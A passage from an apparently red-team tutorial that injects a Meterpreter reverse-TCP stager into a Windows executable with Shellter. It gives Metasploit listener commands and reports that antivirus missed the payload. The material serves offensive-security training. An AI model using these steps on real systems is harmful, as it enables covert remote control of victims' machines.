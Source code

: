 ![](../../assets/img/redteam/wd14.png)  
  

You will now be prompted with the payload selection menu, in this case, we will be utilizing the listed payloads, this can be selected by specifying the “L” option as shown in the screenshot below.

![](../../assets/img/redteam/wd15.png)  
  

You will now be prompted to specify the payload of choice by index, in this case, we will be using the “Meterpreter\_Reverse\_TCP” stager method. This payload can be selected by selecting option “1” as highlighted in the following screenshot.

![](../../assets/img/redteam/wd16.png)  
  

You will now be prompted to specify the Meterpreter payload options, in this case, you will need to set the LHOST and LPORT options as highlighted in the screenshot below.

![](../../assets/img/redteam/wd17.png)  
  

After specifying the Meterpreter payload options, Shellter will begin the process of injecting the payload into the target PE. Afterward, Shellter will confirm the injection process as shown in the following screenshot.

![](../../assets/img/redteam/wd18.png)  
  

We will now need to set up the listener with Metasploit to receive a reverse tcp connection when the target executable is executed. This can be done by running the following commands in the Metasploit framework:

```bash
msfconsole
```

```bash
msf> use multi/handler
```

```bash
msf> set payload windows/meterpreter/reverse_tcp
```

```bash
msf> set LHOST <KALI-IP>
```

```bash
msf> set LPORT <PORT>
```

```bash
msf> run
```

After setting up the Metasploit listener, you will now need to transfer the target PE we injected the payload into the target system. Once the target PE is executed, we should receive a meterpreter session on our listener as shown in the screenshot below.

![](../../assets/img/redteam/wd19.png)  
  

The execution of the target PE on the target system is not detected by the AV and as a result, we were able to obtain a meterpreter session on the target system.
